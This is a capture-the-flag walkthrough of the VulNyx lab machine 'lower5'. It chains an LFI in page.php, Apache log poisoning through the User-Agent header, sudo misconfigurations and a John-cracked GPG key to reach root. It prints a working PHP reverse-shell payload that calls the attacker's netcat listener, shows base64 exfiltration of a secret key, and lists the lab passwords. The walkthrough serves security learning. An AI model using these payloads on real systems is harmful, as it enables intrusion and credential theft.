


# lower5

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| lower5 | d4t4s3c | Low | VulNyx |

**Summary:** The lower5 machine presented a chain of vulnerabilities beginning with a Local File Inclusion (LFI) flaw in a PHP web application hosted on Apache. The `page.php` script accepted user-supplied filenames through the `inc` parameter without sanitization, enabling an attacker to read arbitrary files on the filesystem including `/etc/passwd` and the Apache access log at `/var/log/apache2/access.log`. Because the access log stored the raw `User-Agent` header from every HTTP request, this became a vector for log poisoning: by injecting a PHP web shell payload into the `User-Agent` field and then invoking the LFI to include the poisoned log file, remote code execution was achieved as `www-data`. From there, a misconfigured `sudo` policy allowed `www-data` to execute `/usr/bin/bash` as the `low` user without a password, granting a shell with user-level privileges. Inside `low`'s home directory, a GPG-encrypted private key file (`root.gpg`) was found alongside a password store managed by `pass`, which `low` could run as root without a password. The GPG key was exfiltrated, converted to a crackable hash format, and cracked using John the Ripper against the rockyou wordlist, revealing the passphrase `Password1`. With the unlocked GPG key, the `pass` utility was able to retrieve the plaintext root password from the password store, enabling a direct `su` escalation to the root account.

---

## Reconnaissance

The assessment began with a comprehensive Nmap scan to identify open ports and enumerate service versions across the entire port range.

1. Running a full TCP port scan with default scripts and version detection against the target:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ nmap -sC -sV -p- -T4 $ip            
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-09 21:09 +0700
Nmap scan report for 192.168.100.219 (192.168.100.219)
Host is up (0.0025s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: vTeam a Corporate Multipurpose Free Bootstrap Responsive template
|_http-server-header: Apache/2.4.62 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.91 seconds
```

The scan revealed two open ports: SSH on port 22 and an Apache HTTP server on port 80. With SSH requiring credentials that were not yet available, attention turned to the web application.

2. Visiting the web application in a browser revealed a Bootstrap corporate template site:


---

## Initial Access

### Web Content Discovery

3. A directory and file enumeration scan was performed using Gobuster to uncover hidden paths and PHP scripts:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ gobuster dir -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png  
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.100.219/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              bak,txt,html,zip,tar,js,css,png,php,env
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.php            (Status: 200) [Size: 11714]
contact.html         (Status: 200) [Size: 8209]
about.html           (Status: 200) [Size: 9116]
services.html        (Status: 200) [Size: 9573]
page.php             (Status: 200) [Size: 52]
assets               (Status: 301) [Size: 319] [--> http://192.168.100.219/assets/]
portfolio.html       (Status: 200) [Size: 14175]
```

The script `page.php` was immediately interesting: its response body was only 52 bytes, suggesting it was a bare script awaiting a parameter. This hinted at a file inclusion vulnerability.

### Local File Inclusion Discovery

4. The `inc` parameter was fuzzed against `page.php` using ffuf with a dedicated LFI wordlist, filtering out the baseline 52-byte response to surface successful inclusions:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ ffuf -u "http://$ip/page.php?inc=FUZZ" -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fs 52

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.100.219/page.php?inc=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 52
________________________________________________

/etc/passwd             [Status: 200, Size: 1051, Words: 5, Lines: 23, Duration: 8ms]
/var/log/apache2/access.log [Status: 200, Size: 39360071, Words: 4185044, Lines: 380034, Duration: 884ms]
:: Progress: [930/930] :: Job [1/1] :: 46 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

Two critical paths were confirmed as readable. Reading `/etc/passwd` proved arbitrary file read, and the Apache access log at `/var/log/apache2/access.log` was far more significant: because Apache records the raw `User-Agent` string for each request, writing PHP code into that field would poison the log with executable code.





### Log Poisoning and Remote Code Execution

5. A netcat listener was started on the attacking machine to catch the incoming reverse shell:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
```

6. A PHP reverse shell one-liner was injected into the Apache access log by making a request to the server with the payload embedded in the `User-Agent` header:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ curl -s -H "User-Agent: <?php system('busybox nc 192.168.100.1 1337 -e /bin/sh'); ?>" "http://$ip/"
```

7. The poisoned log was then included via the LFI, triggering execution of the PHP payload:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ curl http://192.168.100.219/page.php?inc=/var/log/apache2/access.log
```

8. The reverse shell connected. The session was stabilized into a fully interactive TTY using `script` and `stty`:

```bash
connect to [172.20.131.21] from (UNKNOWN) [172.20.128.1] 63081
which python3
which script
/usr/bin/script
script -c /bin/bash /dev/null
Script started, output log file is '/dev/null'.
www-data@lower5:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                              
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ stty raw -echo; fg   
[1]  + continued  nc -lvnp 1337

www-data@lower5:/var/www/html$ stty rows 80 cols 150
www-data@lower5:/var/www/html$ export TERM=xterm && export SHELL=/bin/bash
```

A stable shell was obtained as `www-data`.

---

## Privilege Escalation

### www-data to low

9. Checking `sudo` privileges for the `www-data` user revealed a direct path to the `low` account:

```bash
www-data@lower5:/$ sudo -l
Matching Defaults entries for www-data on lower5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on lower5:
    (low) NOPASSWD: /usr/bin/bash
www-data@lower5:/$ sudo -u low /usr/bin/bash
low@lower5:/$ id
uid=1000(low) gid=1000(low) groups=1000(low)
```

The `www-data` account was allowed to run `/usr/bin/bash` as `low` without any password, providing immediate lateral movement.

### Enumerating the low User's Home Directory

10. Listing the contents of `low`'s home directory uncovered a GPG-encrypted file alongside the user flag:

```bash
low@lower5:~$ ls -la
total 28
drwx------ 2 low  low  4096 Apr  9  2025 .
drwxr-xr-x 3 root root 4096 Apr  9  2025 ..
lrwxrwxrwx 1 root root    9 Nov 15  2023 .bash_history -> /dev/null
-rw-r--r-- 1 low  low   220 Nov 15  2023 .bash_logout
-rw-r--r-- 1 low  low  3526 Nov 15  2023 .bashrc
-rw-r--r-- 1 low  low   807 Nov 15  2023 .profile
-rw------- 1 low  low  1479 Apr  9  2025 root.gpg
-r-------- 1 low  low    33 Apr  9  2025 user.txt
low@lower5:~$ which gpg
/usr/bin/gpg
```

11. The packet structure of `root.gpg` was inspected to understand what it contained:

```bash
low@lower5:~$ gpg --list-packets root.gpg
gpg: directory '/home/low/.gnupg' created
gpg: keybox '/home/low/.gnupg/pubring.kbx' created
# off=0 ctb=95 tag=5 hlen=3 plen=518
:secret key packet:
        version 4, algo 1, created 1744194514, expires 0
        pkey[0]: [1024 bits]
        pkey[1]: [17 bits]
        iter+salt S2K, algo: 7, SHA1 protection, hash: 2, salt: 10AD10F7B8E3EE37
        protect count: 65011712 (255)
        protect IV:  3e 0e ef 71 c5 bd 4a 1c 1c 2e d0 7f 42 70 50 0f
        skey[2]: [v4 protected]
        keyid: 9AD17885DA2449A1
# off=521 ctb=b4 tag=13 hlen=2 plen=43
:user ID packet: "administrator (password) <admin@lower5.nyx>"
# off=566 ctb=88 tag=2 hlen=2 plen=206
:signature packet: algo 1, keyid 9AD17885DA2449A1
        version 4, created 1744194514, md5len 0, sigclass 0x13
        digest algo 10, begin of digest d1 05
        hashed subpkt 33 len 21 (issuer fpr v4 8EB04B247DDF823C7F155B529AD17885DA2449A1)
        hashed subpkt 2 len 4 (sig created 2025-04-09)
        hashed subpkt 27 len 1 (key flags: 03)
        hashed subpkt 11 len 4 (pref-sym-algos: 9 8 7 2)
        hashed subpkt 21 len 5 (pref-hash-algos: 10 9 8 11 2)
        hashed subpkt 22 len 3 (pref-zip-algos: 2 3 1)
        hashed subpkt 30 len 1 (features: 01)
        hashed subpkt 23 len 1 (keyserver preferences: 80)
        subpkt 16 len 8 (issuer key ID 9AD17885DA2449A1)
        data: [1022 bits]
# off=774 ctb=9d tag=7 hlen=3 plen=518
:secret sub key packet:
        version 4, algo 1, created 1744194514, expires 0
        pkey[0]: [1024 bits]
        pkey[1]: [17 bits]
        iter+salt S2K, algo: 7, SHA1 protection, hash: 2, salt: 47605CF4B77ACB39
        protect count: 65011712 (255)
        protect IV:  1a 80 f2 32 bf 1b 34 43 c5 49 16 19 d6 17 eb 72
        skey[2]: [v4 protected]
        keyid: E70EBB1C2CFFB642
# off=1295 ctb=88 tag=2 hlen=2 plen=182
:signature packet: algo 1, keyid 9AD17885DA2449A1
        version 4, created 1744194514, md5len 0, sigclass 0x18
        digest algo 10, begin of digest fc f2
        hashed subpkt 33 len 21 (issuer fpr v4 8EB04B247DDF823C7F155B529AD17885DA2449A1)
        hashed subpkt 2 len 4 (sig created 2025-04-09)
        hashed subpkt 27 len 1 (key flags: 0C)
        subpkt 16 len 8 (issuer key ID 9AD17885DA2449A1)
        data: [1023 bits]
```

The user ID packet confirmed this was a password-protected GPG secret key belonging to the `administrator` identity. The comment field even read `(password)`, strongly implying the passphrase itself was a common word. The key was exfiltrated by encoding it as base64 and verifying integrity with md5sum:

```bash
low@lower5:~$ base64 -w0 root.gpg
lQIGBGf2S9IBBACsss187duLRqrNlaEo/AFF65XvMlghWpIKjtka5mugt5gpqSsXH49MW+CDUxKNIrPUS7lY8tSsOp8eZ4m9JuVbg0q+GNuJ8IuLuOpWWprNggJw3zsm56p3EnrN6+Vc4LP4E84oVwKTion97tIPFVsVjsRAd6B1bsqfu/nCCq1nzQARAQAB/gcDAhCtEPe44+43/z4O73HFvUocHC7Qf0JwUA+9eIRfMzplLfr2Zp3Jem4/owaKB0hRQ2GcfR5/0OAG6HQxNgBSeR/aq3VKn82eWc3rZkgjTH/7VssuMZexkO6vwk3cgN4g2V4La8fqtAy4evivIcDUb9T43bEWwuyXpW+owd0Fcazfjdu/Q1Qkvx68bsV2gvnWNqCtUJbN/B1VXsPsYzCpQxA0CrPBtr+26b+5WrpUZUx01KMffLygKr3MeuJrP3HZAhlk8OP+vkHGN/a5tiT8pHBxy6nhHLGrpa8G0ZQ0G7ZyqFSVE5ZRPdLhSXToE4uJ13RFai4HvcPh25BWpSsHu05zVt8MBfHvZ5GqZ4lJp7qaFDhD6gp8/iSRbvnVOxHTGO/XCtyTCC7vRd+gqZMIlbQqQQOoxUv8gmtiy2uJXCcWsPj3ziOWQlEHFXqA7+4bX/dT2V27aNWOm7OWLpMBubfOL8/bqlQtlOTW3XJW5AQQwgXfnGC0K2FkbWluaXN0cmF0b3IgKHBhc3N3b3JkKSA8YWRtaW5AbG93ZXI1Lm55eD6IzgQTAQoAOBYhBI6wSyR934I8fxVbUprReIXaJEmhBQJn9kvSAhsDBQsJCAcCBhUKCQgLAgQWAgMBAh4BAheAAAoJEJrReIXaJEmh0QUD/iAHVL44B1Xa77Lg8osHuo9oyZxA5stbRffTu0gxElL5YONG6kcY5WUs+8ykUFYm+g/92SJNAWo26Ug6vorEYrf96D+JIXygTLqgQzz3D7xIlHvvmoKYN5346+1Zm4eghjOByc1v+2B170cCIbrCJdI/LUzgEIRscakah9O9c0srnQIGBGf2S9IBBAC6TyxohTFia3S3TzTzGBahLb+51+54gO77tr55YSCRPH9fscq4+pRQNsfCO2wwshn8Q2HU74Zb3m15oB7hvZ1wQh+pS+yyDkZo/GvOldj4/MjTGP0yGd74jqzNEWLnfHosY/Z/iOzab3bR7nzGl/AWMWJCRVMbkYCJjSxKQCg9ewARAQAB/gcDAkdgXPS3ess5/xqA8jK/GzRDxUkWGdYX63LTLCoEsi85NtB0mHn6SSOOkruoDcJ65Q1WLiJubkOUxYB9KHy0MgYJSNzrPidPSvFF8RmYcop5HgeZiUvnfajCiAewzcuJ5JUuCkI8WE/tcPNfS7Hms14lbRqo3oeumz78lXxG+CC9/qUU7ZGj1/6b4gWAwQvfh/r/PJcltB9R/hvOTlfGVWl64kW/gy3JV6fJFJz125cr3kevNSzTG8hv+7Ut524yu2zGZ10x0QDlSyxZ5fh3cZgul+1zREeKftrJ4fMIPFNPy3nbUVkNep6IwEO68NFg2RHlKx0+2gpUkItagIOSUiI3rEPPs2XO8+UudkBIHaa/z81Wc7diJ/L3CYXxSfGHO5ZNOo7AePiJDlz7UyDDOF5NzL/p23sE07RrS91PS8mqggUQxo68zD3VRy6DU05o7czuVHcrqpKUKxpux4NrERtMtYR/AWo03Bv0YUv/e/MofJvyuM2ItgQYAQoAIBYhBI6wSyR934I8fxVbUprReIXaJEmhBQJn9kvSAhsMAAoJEJrReIXaJEmh/PID/1kWbhOcW3mP78xlnwu3Zz7hd8CdOOhBcjm/lFHYQbC9Oaj/gJvHhID46dQiOZw1xk5AopKSxErdlDTVyI8LFCd+lcCaW0qp9asFlhrXE2kmUgZhJ6UC+aW3M/dTEoxFB76U9gB70ONbXLZlcROckCmQBPGzdXqj6sEQ5cz667Cf
low@lower5:~$ which md5sum
/usr/bin/md5sum
low@lower5:~$ md5sum root.gpg 
b553b40c9c130572cadff8118766ff5c  root.gpg
```

12. On the attacker machine, the base64 string was decoded back into the binary GPG file and its integrity was confirmed via md5sum:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ echo 'lQIGBGf2S9IBBACsss187duLRqrNlaEo/AFF65XvMlghWpIKjtka5mugt5gpqSsXH49MW+CDUxKNIrPUS7lY8tSsOp8eZ4m9JuVbg0q+GNuJ8IuLuOpWWprNggJw3zsm56p3EnrN6+Vc4LP4E84oVwKTion97tIPFVsVjsRAd6B1bsqfu/nCCq1nzQARAQAB/gcDAhCtEPe44+43/z4O73HFvUocHC7Qf0JwUA+9eIRfMzplLfr2Zp3Jem4/owaKB0hRQ2GcfR5/0OAG6HQxNgBSeR/aq3VKn82eWc3rZkgjTH/7VssuMZexkO6vwk3cgN4g2V4La8fqtAy4evivIcDUb9T43bEWwuyXpW+owd0Fcazfjdu/Q1Qkvx68bsV2gvnWNqCtUJbN/B1VXsPsYzCpQxA0CrPBtr+26b+5WrpUZUx01KMffLygKr3MeuJrP3HZAhlk8OP+vkHGN/a5tiT8pHBxy6nhHLGrpa8G0ZQ0G7ZyqFSVE5ZRPdLhSXToE4uJ13RFai4HvcPh25BWpSsHu05zVt8MBfHvZ5GqZ4lJp7qaFDhD6gp8/iSRbvnVOxHTGO/XCtyTCC7vRd+gqZMIlbQqQQOoxUv8gmtiy2uJXCcWsPj3ziOWQlEHFXqA7+4bX/dT2V27aNWOm7OWLpMBubfOL8/bqlQtlOTW3XJW5AQQwgXfnGC0K2FkbWluaXN0cmF0b3IgKHBhc3N3b3JkKSA8YWRtaW5AbG93ZXI1Lm55eD6IzgQTAQoAOBYhBI6wSyR934I8fxVbUprReIXaJEmhBQJn9kvSAhsDBQsJCAcCBhUKCQgLAgQWAgMBAh4BAheAAAoJEJrReIXaJEmh0QUD/iAHVL44B1Xa77Lg8osHuo9oyZxA5stbRffTu0gxElL5YONG6kcY5WUs+8ykUFYm+g/92SJNAWo26Ug6vorEYrf96D+JIXygTLqgQzz3D7xIlHvvmoKYN5346+1Zm4eghjOByc1v+2B170cCIbrCJdI/LUzgEIRscakah9O9c0srnQIGBGf2S9IBBAC6TyxohTFia3S3TzTzGBahLb+51+54gO77tr55YSCRPH9fscq4+pRQNsfCO2wwshn8Q2HU74Zb3m15oB7hvZ1wQh+pS+yyDkZo/GvOldj4/MjTGP0yGd74jqzNEWLnfHosY/Z/iOzab3bR7nzGl/AWMWJCRVMbkYCJjSxKQCg9ewARAQAB/gcDAkdgXPS3ess5/xqA8jK/GzRDxUkWGdYX63LTLCoEsi85NtB0mHn6SSOOkruoDcJ65Q1WLiJubkOUxYB9KHy0MgYJSNzrPidPSvFF8RmYcop5HgeZiUvnfajCiAewzcuJ5JUuCkI8WE/tcPNfS7Hms14lbRqo3oeumz78lXxG+CC9/qUU7ZGj1/6b4gWAwQvfh/r/PJcltB9R/hvOTlfGVWl64kW/gy3JV6fJFJz125cr3kevNSzTG8hv+7Ut524yu2zGZ10x0QDlSyxZ5fh3cZgul+1zREeKftrJ4fMIPFNPy3nbUVkNep6IwEO68NFg2RHlKx0+2gpUkItagIOSUiI3rEPPs2XO8+UudkBIHaa/z81Wc7diJ/L3CYXxSfGHO5ZNOo7AePiJDlz7UyDDOF5NzL/p23sE07RrS91PS8mqggUQxo68zD3VRy6DU05o7czuVHcrqpKUKxpux4NrERtMtYR/AWo03Bv0YUv/e/MofJvyuM2ItgQYAQoAIBYhBI6wSyR934I8fxVbUprReIXaJEmhBQJn9kvSAhsMAAoJEJrReIXaJEmh/PID/1kWbhOcW3mP78xlnwu3Zz7hd8CdOOhBcjm/lFHYQbC9Oaj/gJvHhID46dQiOZw1xk5AopKSxErdlDTVyI8LFCd+lcCaW0qp9asFlhrXE2kmUgZhJ6UC+aW3M/dTEoxFB76U9gB70ONbXLZlcROckCmQBPGzdXqj6sEQ5cz667Cf' | base64 -d > root.gpg

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ md5sum root.gpg
b553b40c9c130572cadff8118766ff5c  root.gpg
```

The md5 checksums matched, confirming the file transferred without corruption.

### Cracking the GPG Passphrase

13. Meanwhile, enumerating `sudo` permissions for the `low` user revealed access to the `pass` password manager as root:

```bash
low@lower5:~$ sudo -l
Matching Defaults entries for low on lower5:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User low may run the following commands on lower5:
    (root) NOPASSWD: /usr/bin/pass
low@lower5:~$ sudo -u root /usr/bin/pass
Password Store
`-- root
    `-- password
```

The password store held a single entry: `root/password`. However, `pass` uses GPG encryption to protect its contents. Without the unlocked GPG key in the keyring, the secret could not be read. The GPG key needed its passphrase cracked first.

14. John the Ripper was used on the attacker machine to crack the GPG key's passphrase using the rockyou wordlist. The GPG file was first converted to a crackable hash format with `gpg2john`:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/vulnyx]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (administrator)     
1g 0:00:03:17 DONE (2026-08-09 21:49) 0.005060g/s 17.75p/s 17.75c/s 17.75C/s Password1..placebo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The passphrase `Password1` was recovered in approximately three minutes. This passphrase was then used to import and unlock the GPG key into the `low` user's keyring, enabling `pass` to decrypt its store.

### low to root

15. With the GPG key's passphrase now known, the `pass` utility could decrypt and print the root password from the password store:

```bash
low@lower5:~$ sudo -u root /usr/bin/pass root/password
r00tP@zzW0rD123
low@lower5:~$ su - root
Password: 
root@lower5:~# id;whoami;hostname;pwd
uid=0(root) gid=0(root) grupos=0(root)
root
lower5
/root
```

Full root access was obtained using the password `r00tP@zzW0rD123` retrieved directly from the GPG-encrypted password store.

---

## Attack Chain Summary

1. **Reconnaissance**: A full Nmap scan identified SSH (port 22) and an Apache web server (port 80) as the only attack surface. Gobuster uncovered a suspicious `page.php` script.

2. **Vulnerability Discovery**: Fuzzing `page.php` with ffuf confirmed an unauthenticated Local File Inclusion vulnerability via the `inc` parameter, with both `/etc/passwd` and the Apache access log readable.

3. **Exploitation**: PHP code was injected into the Apache access log by poisoning the `User-Agent` header. Triggering the LFI against the poisoned log executed the payload and delivered a reverse shell as `www-data`.

4. **Internal Enumeration**: A `sudo` misconfiguration permitted `www-data` to execute `/usr/bin/bash` as `low` without credentials. Inside `low`'s home directory, a password-protected GPG secret key and a `pass` password store (readable only as root) were discovered. The GPG file was exfiltrated via base64 encoding.

5. **Privilege Escalation**: The GPG key passphrase (`Password1`) was cracked offline using John the Ripper against the rockyou wordlist. With the key unlocked, `pass` was invoked with root privileges to retrieve the plaintext root password (`r00tP@zzW0rD123`), completing the escalation to full root access.
